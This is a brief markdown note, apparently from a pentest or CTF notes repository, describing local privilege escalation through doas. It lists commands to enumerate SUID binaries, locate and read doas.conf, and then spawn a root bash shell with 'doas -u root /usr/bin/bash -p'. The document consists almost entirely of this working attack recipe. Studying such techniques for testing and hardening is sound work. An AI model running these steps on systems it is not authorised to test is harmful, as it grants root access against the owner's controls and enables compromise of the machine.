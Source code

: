 # Doas SUID privilege escalation

## Requirements: doas has SUID bit set

### Doas has similar functionality as sudo, which means you can run binaries with elevated privileges by using doas

## STEPS

#### 1) Check for unusual SUID binaries

    find / -type f -perm 4000 2>/dev/null

#### 2) Search for the doas configuration file

    find / -type f -name "doas.conf" 2>/dev/null 

#### 3) Check which binary can be run using doas with elevated privileges

    cat /path/to/doas.conf 

#### 4) Runs bash using doas as root

    doas -u root /usr/bin/bash -p 
